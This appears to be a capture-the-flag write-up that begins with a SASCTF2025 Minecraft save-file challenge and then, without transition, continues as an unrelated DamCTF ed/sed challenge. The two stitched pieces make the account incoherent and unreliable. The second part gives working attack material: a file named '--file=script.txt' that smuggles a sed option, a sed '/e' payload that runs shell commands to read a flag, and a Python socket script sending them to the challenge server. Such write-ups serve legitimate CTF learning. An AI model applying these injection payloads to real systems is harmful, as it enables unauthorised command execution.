 # SASCTF2025 - Library writeup

- Write-Up Author: looy3 


## Write up  

---


The description was " I know nobody likes reading, but this book worth reading from cover to cover. Already finished? Draw the conclusion.  Version: 1.21."
Based on the category (minecraft), the nature of the challenge was pretty obvious.
Unzipping the attached .zip, I found the following contents:
```
Library % ls
DIM1  DIM-1  advancements  data  entities  icon.png  level.dat  level.dat_old  playerdata  poi  region  session.lock  stats
```
Pretty obviously a minecraft saves file. We not only have level data, an icon, region data, but we also have advancements (which are saved locally in minecraft). I moved it to my C:/Users/tjesau/AppData/Roaming/.minecraft/saves and booted up minecraft. Sure enough, minecraft recognized it as a valid save file. The world I loaded into looked like this:
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/SASCTF2025/minecraft/world.png)
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/SASCTF2025/minecraft/books.png)
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/SASCTF2025/minecraft/book.png)

As you can see, it was a single chunk with a ton of item frames with books containing the entirety of Moby Dick inside. I used to play around with command blocks a lot, so I quickly knew that these were entities. Thus, I navigated to the saves/Library/entities. Only one anvil file had a size indicating so much text: r.0.0.mca. It was 1.6MB, which indicates a looooot of entities or entity data. Having previously needed to delete entity data on a minecraft server (to prevent crashing/fix a corrupted save), I knew where to go to access it. I downloaded an app called NBTExplorer (In hindsight, use NBTStudio, it's way better), loaded the relevant mca file, and searched for values which might be related to the challenge. "SAS" revealed nothing but "{" gave me this: 
```
These are some other differences:

# as a comment character.

GNU: # is a comment command.
BSD: # is not a valid command.
Plan 9: Like BSD.
POSIX: Like BSD.
Behavior destroying unsaved work.

GNU: e, e !, and q always fails on the first try if the buffer is unsaved.
BSD: Like GNU, but using -s disables the warning.
Plan 9: Like GNU.
POSIX: Like GNU.
Exit status (this is a bit difficult to test thoroughly).

GNU: Terminates with a non-zero exit status if the last command caused an error.
BSD: Most errors cause non-zero termination only with -s.
Plan 9: Seems to never terminate with non-zero exit status.
POSIX: Termination with a zero exit status means "Successful completion without any file or command errors."
The s/// command, but with only the first /.

GNU: s/RE is an error.
BSD: s/RE behaves like s/RE/, which is the same as s/RE//p, i.e. it replaces the substring matching the regular expression RE with nothing and prints the modified line.
Plan 9: Like BSD.
POSIX: Like GNU.
Using ^ as an address.

GNU: ^ is an invalid address.
BSD: ^ addresses the previous line, just like -.
Plan 9: Like BSD.
POSIX: Permits ^ to be the same as -.
Combining the printing commands p, l, and n (like nl), and repeating commands while doing so (as in nlnl or pnnn).

GNU: Combining printing commands is allowed. Repeated commands are not permitted (although pp, nn, and ll are allowed since the standard allows adding p, n, or l to commands other than e, E, f, q, Q, r, w, or !).
BSD: Combining printing commands is allowed. Repeated commands are permitted.
Plan 9: Combinations of two commands out of the three are permitted (not nlp). Repeated commands are not allowed.
POSIX: The effect of combining printing commands is "unspecified".
Upon receiving a HUP signal, the current editing buffer is saved in a file called ed.hup in the current directory. If that fails, the buffer is written to $HOME/ed.hup. What happens if these names already exist?

GNU: The file ed.hup in the current directory will be overwritten if it is a regular file and it's owned by the current user. Otherwise, the file $HOME/ed.hup will be overwritten if it is a regular file owned by the current user. Otherwise, the buffer is lost.
BSD: Like GNU, but the current buffer is also available in a temporary file whose name matches /tmp/ed.*.
Plan 9: Like GNU.
POSIX: Like GNU.`
```
The challenge used GNU ed. Unfortunately, GNU ed doesn't really have any unique commands which would allow me to execute code externally.

Thus, as per my initial hunch, I assumed that either the file name or file contents are executed by something. To test this, I simply devised a python script (not using pwntools, although I should have :P) to test every possible ASCII combination in both the file name and file contents and then wrote it to the local directory (which is allowed under red). Two ASCII characters stood out to me: Both '-' and '.' yielded this error:
```
sed: invalid option -- ' '
Usage: sed [OPTION]... {script-only-if-no-other-script} [input-file]...

  -n, --quiet, --silent
                 suppress automatic printing of pattern space
      --debug
                 annotate program execution
  -e script, --expression=script
                 add the script to the commands to be executed
  -f script-file, --file=script-file
                 add the contents of script-file to the commands to be executed
  --follow-symlinks
                 follow symlinks when processing in place
  -i[SUFFIX], --in-place[=SUFFIX]
                 edit files in place (makes backup if SUFFIX supplied)
  -l N, --line-length=N
                 specify the desired line-wrap length for the `l' command
  --posix
                 disable all GNU extensions.
  -E, -r, --regexp-extended
                 use extended regular expressions in the script
                 (for portability use POSIX -E).
  -s, --separate
                 consider files as separate rather than as a single,
                 continuous long stream.
      --sandbox
                 operate in sandbox mode (disable e/r/w commands).
  -u, --unbuffered
                 load minimal amounts of data from the input files and flush
                 the output buffers more often
  -z, --null-data
                 separate lines by NUL characters
      --help     display this help and exit
      --version  output version information and exit

If no -e, --expression, -f, or --file option is given, then the first
non-option argument is taken as the sed script to interpret.  All
remaining arguments are names of input files; if no input files are
specified, then the standard input is read
```
You can see the steps I took to manually get this error:
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/DamCTF/misc/imsadsadsadsaage.png)

I didn't bother with executing code from sed using . and rather focused on -. First, I tried --version. This worked. I found that we were using the latest version of GNU Sed.
```
[Sun May 11 13:00:19 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
10
sed (GNU sed) 4.9
Packaged by Debian
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Jay Fenlason, Tom Lord, Ken Pizzini,
Paolo Bonzini, Jim Meyering, and Assaf Gordon.

This sed program was built with SELinux support.
SELinux is disabled on this system.

GNU sed home page: <https://www.gnu.org/software/sed/>.
General help using GNU software: <https://www.gnu.org/gethelp/>.
E-mail bug reports to: <bug-sed@gnu.org>.
```
Cool. We can use sed. I tried other payloads, including 
```-n 's/.*/COMMAND/e'```
Dir access was blocked. Sed does allow for numerous wild cards though. But even then, sed only replied that it could not execute '' . It was reading my input as a singular string. I'd have to find a way to execute commands which could be written in a single string. Sed's man page reported the following:
```
--file=script-file

              add the contents of script-file to the commands to be executed
```
Pretty sure I could use that to execute a script file I made using ed (as I could only run one command in sed before session ended). Thus, the following payload, which contains a sed command 
```(s/.*/cd ..; ls .. -a; cd ..; cat flag/e)``` 

inside a script named 'script.txt' is executed by another file written as --file=script.txt with contents --file=script.txt. This finally provided the much wanted flag:

```
dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

This is the full script with all of its sockets :P
```python
import socket
import string

def send_to_netcat(host, port, data):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))
            s.sendall(data.encode())
            s.shutdown(socket.SHUT_WR)

            response = b""
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                response += chunk
            return response.decode()
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    host = "standard-editor.chals.damctf.xyz"
    port = 6733
    commands = f"H\na\ns/.*/cd ..; ls .. -a; cd ..; cat flag/e\n.\nw script.txt\n1d\na\n--file=script.txt\n.\nw --file=script.txt\n"  
    data = commands
    response = send_to_netcat(host, port, data)
    print(response)
    print("\n\n\n")
```

